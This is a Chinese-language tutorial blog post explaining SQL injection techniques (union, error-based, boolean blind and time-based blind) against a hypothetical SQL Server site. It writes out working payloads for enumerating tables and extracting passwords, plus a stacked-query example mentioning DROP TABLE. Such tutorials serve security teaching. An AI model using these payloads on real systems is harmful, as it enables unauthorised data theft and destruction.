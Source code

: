```yaml
---
layout: post
title:  "sql 注入"
category: sql
tags: [sql, read]
keywords: sql injection,sql注入
description: sql注入，error-based inject,Union-based injection,boolean-based injection,Time-based injection
---
```

###All your datas are belong to us (if we can break into the query context)###

SQL 注入是怎么成为可能的，简单的说就是打破原有的数据上下文加入一些查询内容。  
现在假设有一个URL包含一个 "id=1" 查询参数，这个参数最后会传到 SQL 查询语句中：  
	Select *　from Widget where ID = 1 
完整的URL连接可以是这样的：
http://widgetshop.com/widget/?id=1  
现在可以改请求的参数，比如给传一个参数 "2",这样都是正常的，但是如果把参数改成 "1 or 1=1"呢  
http://widgetshop.com/widget/?id=1 or 1=1  
到数据库服务器的时候，查询语句可能是这样的:  
	select * from Widget where id = 1 or 1=1  
这告诉我们数据没有经过验证处理(not being sanitised)，期望的是一个Integer的数据类型，但是实际上接收到的值是 "1 or 1=1"
更重要的是这个参数导致sql语句的变更会改变原语句的功能。现在不只是查找一条记录，而是所有的记录。如果是加上一个 "or 1=2"就是没有结果，
通过这两种情况我们就很容易判断这个程序是不是存在潜在的sql注入问题  

sql 注入的精髓就是---用一些不受信任的数据执行查询操作。
如果开发者的代码是这样话：
	query = "select * from Widget where Id = "+ Request.QueryString["Id"];
当然这是需要程序会接收受信任的参数，这里我们里只单纯的谈论SQL注入。

下面探讨一些常用的sql注入的方法：  
####Union query-based injection####
看刚才上面的那个例子，现在URL是这样的:http://widgetshop.com/Widgets/?TypeId=1
在页面上显示的结果如下：
Shiny  
Round  
Fuzzy  
我们期待查询语句类似于这样：  
	select name from Widget where TypeId=1  
我们可能可以添加一些sql到查询数据中(请求参数)，可能是这样子：  
http://widgetshop.com/Widgets/?TypeId=1 union all select name from sysobjects where xtype='u'  
这样的话创建的SQL语句可能就是这样的：  
	select name from Widget where TypeId = 1 union all select name from sysobjects where xtype='u'  
注意，sysobjects 表是有数据库中所有的对象，我使用查询条件 xtype "u",也就是说我们查出所有的用户表(表名)，这意味着页面上会显示(除了原来的信息，还有用户表，这里假设只有二个)  
Shiny
Round
Fuzzy
Widget
User
这就是一个种基于Union查询的注入攻击，一些额外的结果在html页面上显示出来了，现在我们就知道了有一个叫做user的表
现在可以这样做：
http://widgetshop.com/Widgets/?TypeId=1 union all select password from [user]
SQL Server中如果表是以"user"命令，在使用的时候不加[],会有其他的含意。通过上面的语句可以得到结果
Shiny
Round
Fuzzy
P@ssw0rd

UNION All 方法要求是在第一个 sql 语句跟第二个 sql 语句有相同的列数才可以，这也是非常容易处理的，
你只需要使用 "union all select 'a'"然后"union all select 'a','b'"这样一直猜下去就可以了。
可以继续使用这种方法拉回来更多的数据。

####Error-base Injection####
尝试另一种模式,看下面的URL  
http://widgetshop.com/widget/?id=1 or x=1  
注意，这不会是不一个有效的sql语句，除非表中有一个 column 叫 x，否则会抛出一个异常，你会看到下面的信息  
。。。。。。
这是一个 ASP.NET的错误信息，其他的框架也会有类似的信息。
重要的是这些错误信息会将内部的实现给暴露出来，这样就可以确定应用程序会把sql异常给暴露出来。  
然后接下来你就可以这样做：  
http://widgetshop.com/widget/?id=convert(int,(select top 1 name from sysobjects where id=(select top 1 id from (select top 1 id from sysobjects where xtype='u' order by id) sq order by id DESC)))  
然后会返回一个这样的结果在浏览器上  
这样就可以发现在数据库中的一个Widget的表，下面看一下上面的url中：  
convert(int, (
    select top 1 name from sysobjects where id=(
      select top 1 id from (
        select top 1 id from sysobjects where xtype='u' order by id
      ) sq order by id DESC
    )
  )
)
这个语句的目的就是从 sysobjects 表中查出所有用户表。为什么会这样呢  
只要将最里层的 sql 语句的top 1 一直往上面加 top 2， top3，这样再通过第二层的 sql 语句的 desc 排序就可以得到每个一用户表的name  
name   id
test1   1
test3   5
test4   3
test8   4
test9   10
经过最里层sql的排序会是1，3，4，5，10;先取到top1，再到第二层sql通过desc这时候得到id=1的表的name  
如果把最里层的sql改成 top 2，就会得到id为 1，3的两条记录，通过第二层的desc可以得到 id=3的表name。以此类推  
而到最外层的时候 conver(int, "name"),这样将一个字符串转换成int类型，就会在页面将表的名字给暴露出来,(当然，除非你的表名类似于 12，34这样。一般来也不会这样命名表)  
同样通过这样的一种方法也可以得到表中所有的列名，只要将这种方法应用在 syscolumns 表上就可以了  
这种方法只有程序会将错误信息显示在页面上的时候才会有效，如果程序有很好的配置避免了这种错误信息的暴露呢？
下面会说到 "blind" SQL injection
####"blind" SQL injection####
这前说的方法都会依赖程序暴露了内部的细节，将表或者其他的数据信息返回到UI上了。  
接下来看一下另外两种方法：boolean-based 跟 time-based  
####boolean-based injection####
看下面的这个例子  
http://widgetshop.com/widget/?id=1 and 1=2  
显示1=2永远不会为true,app会怎样处理这种情况呢  
1，可能只是抛出一个异常，通常开发者会认为记录是会存在的，因为这样的链接是app自己提供的。  
2，app不会抛出异常也不会显示数据  
不管怎样，app含蓄都告诉了我们没有记录从数据库返回来。现在做以下的尝试  
将访问链接变成这样  
http://widgetshop.com/widget/?id=1 and
(
  select top 1 substring(name, 1, 1) from sysobjects where id=(
    select top 1 id from (
      select top 1 id from sysobjects where xtype='u' order by id
    ) sq order by id desc
  )
) = 'a'

实际上这只是前面获取表名的一种变种，区别只是前面是试图将表名转换成一个int类型，
现在试图去判断表名的第一个字符是不是一个 'a',如果返回的结果跟 "?id=1" 返回的结果是一样的时候，说是就是以这个字符开头的。  
然后再用这种方法去判断第2个字符，当然这是相当的麻烦的，直到你得出了表名。这里有一个小的技巧  
看下面这个:  
(
  select top 1 ascii(lower(substring(name, 1, 1))) from sysobjects where id=(
    select top 1 id from (
      select top 1 id from sysobjects where xtype='u' order by id
    ) sq order by id desc
  )
) > 109  
一个微妙但是重要的区别，不再去判断字符是否相等而是判断在ASCII表中的位置，
这样的可以使用类似二分查找的方法去判断字符的ASCII码，可以减少很重复判断的次数。

###Time-based blind injection###
上面所有说的例子应用程序都是通过html输出信息，(错误信息，对象名，内部数据，显示信息是否与正常信息相同)，要是信息不能显式或隐式的得到呢？  
想像一下通过下面的URL通过攻击  
http://widgetshop.com/Widgets/?OrderBy=Name  
假设会转化成这样的查询：  
SELECT * FROM Widget ORDER BY Name  
显然不能这样直接使用一个order by,常用的一种方法是使用一个分号然后再加一条sql语句，像下面这样：  
http://widgetshop.com/Widgets/?OrderBy=Name;SELECT DB_NAME()  
除了可以得到数据库的名字，这几乎是没有危害的，一些更有危害性的做法像"DROP TABLE Widget".当然这需要web程序连接帐号需要有这样的权限。
一旦你可以这查询的时候问题就出来了。  
现在需要找另一种方法来做类似前面 boolean-based 的测试，使用WAITFOR DELAY 语法。
试一下这个：  
Name;
IF(EXISTS(
  select top 1 * from sysobjects where id=(
    select top 1 id from (
      select top 1 id from sysobjects where xtype='u' order by id
    ) sq order by id desc
  ) and ascii(lower(substring(name, 1, 1))) > 109
))  
WAITFOR DELAY '0:0:5'  
如果满足这条件的话，这个查询语句会延迟5秒钟，通过这样响应的时间间隔也可类似于boolean-based的方法得出表名，只不过会花上更久一点的时间。  
















